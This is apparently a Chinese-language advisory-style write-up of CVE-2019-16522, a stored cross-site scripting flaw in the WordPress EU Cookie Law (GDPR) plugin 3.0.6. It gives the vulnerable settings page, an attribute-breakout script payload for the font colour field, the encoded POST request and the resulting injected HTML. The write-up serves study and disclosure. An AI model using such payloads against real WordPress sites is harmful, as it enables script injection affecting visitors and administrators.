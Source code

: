 ```yaml
---
title: （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss
id: zhfly3252
---
```


# （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss

## 一、漏洞简介

WordPress的3.0.6版eu-cookie-law插件（又称为EU Cookie法（GDPR））容易受到存储XSS的影响，原因是管理区域中几个配置选项的编码不正确以及显示的Cookie同意消息。这会影响“字体颜色”，“背景颜色”和“禁用Cookie”文本。具有高特权的攻击者可以攻击其他用户。

## 二、漏洞影响

wordpress <= 3.0.6，可能更高

## 三、复现过程

```
/wp-admin/options-general.php?page=peadig_eucookie 
```

管理员可以在配置区域为插件设置多个选项。在插入HTML页面之前，大多数都可以正确转义。但是，可以利用三个设置值来插入任意JavaScript和HTML。那些是：

字体颜色（ Font Color）
背景颜色 （Background Color）
“禁用Cookie”文本 （"Disable Cookie" Text）
“ Fontcolor”的值将插入到显示Cookie同意消息的每个页面上。默认情况下，其他两个仅可在管理区域中利用。

以“字体颜色”为例

将字体颜色的值设置为

```
#FFFFFF"><script>alert(1)</script> 
```

便可以突破HTML属性并插入script包含JavaScript 的标签

post包：

```
POST /wp-admin/options.php HTTP / 1.1 
[ ... ] `[ … ] peadig_eucookie％5 Bfontcolor％5 D = ％23FFFFFF％22％3E％3Cscript％3Ealert％281％29％3C / script％3E […]` 
```

这时候我们看一下返回值。

在管理区域中，生成的HTML页面如下所示

```
<input id="fontcolor" type="text" name="peadig_eucookie[fontcolor]" value="#FFFFFF">
<script>alert(1)</script>
" class="color-field" data-default-color="#ffffff"/> 
```

在带有cookie消息的页面上，有效负载将被多次插入。生成的HTML如下所示

```
<!-- Eu cookie Law 3.0.6 -->
<div class="pea_cook_wrapper pea_cook_bottomcenter" style="color:#FFFFFF">
    <script>alert(1)</script>
    ;background:rgb(0,0,0);background: rgba(0,0,0,0.85);"> 
```